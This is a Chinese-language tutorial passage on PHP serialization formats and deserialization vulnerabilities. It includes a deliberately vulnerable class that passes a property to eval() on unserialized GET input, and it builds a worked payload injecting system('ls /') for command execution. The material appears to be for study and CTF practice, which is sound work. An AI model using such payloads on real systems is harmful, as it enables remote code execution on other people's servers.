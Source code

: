 ```php
O:4:"test":1:{s:3:"pub";s:6:"benben";}
O(Object):4(类名长度):"test"(类名):1(成员属性):{s(string):3(字符串长度):"pub"(成员名字);(重复)}
```

private私有属性序列化: `O:4:"test":1:{s:9:"testpub";s:6:"benben";}` 在变量名前加%00  -> %00变量%00
%00test%00pub
protect受保护属性序列化:`O:4:"test":1:{s:6:"*pub";s:6:"benben";}` 在变量名前加`%00*%00`
``%00*%00pub`

**0x04 反序列化**

1.反序列化后的内容是一个对象；
**2 .反序列化生成的对象里的值，由反序列化里的值提供；与原有类定义的值无关**
3.反序列化不触发类的成员方法；需要调用方法后才能触发;

**反序列化的作用**
将序列化后的参数还原成实例化的对象

 ![image-20231028154458950](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231028154458950.png) 



**0x05 反序列化漏洞**

2 .反序列化生成的对象里的值，由反序列化里的**值**提供；与原有类定义的值无关

所以这就构成了反序列化漏洞的成因: 反序列化过程中,unserialize()接收的值(字符串)可控; 可以通过这个值（字符串），得到所需要的代码，即生成的对象的属性值 

**反序列化例题：**

```php
class test{
    public $a = 'echo "this is test!!";';
    public function displayVar() {
        eval($this->a); //把$a传递给eval()函数运行 
    }
}
$get = $_GET["benben"];	//GET方式拿到benben的值
$b = unserialize($get);	//对benben的值进行反序列化
$b->displayVar() ;	    //调用反序列化后的
```

所以我们先做对象的序列化:

```php
O:4:"test":1:{s:1:"a";s:22:"echo "this is test!!";";}
```

然后下面是通过GET方式拿到benben的值 然后再赋值给$b 做反序列化在调用成员方法 **所以GET方式拿到的benben的值我们是可控的** 写payload:

```shell
$get = 'O:4:"test":1:{s:1:"a";s:15:"system("ls%20/");";}'
注意 这边的%20是URL编码作为空格输入的 编码后只占一个字符
```

所以最终payload:

```shell
?benben=O:4:"test":1:{s:1:"a";s:15:"system("ls%20/");";}
```
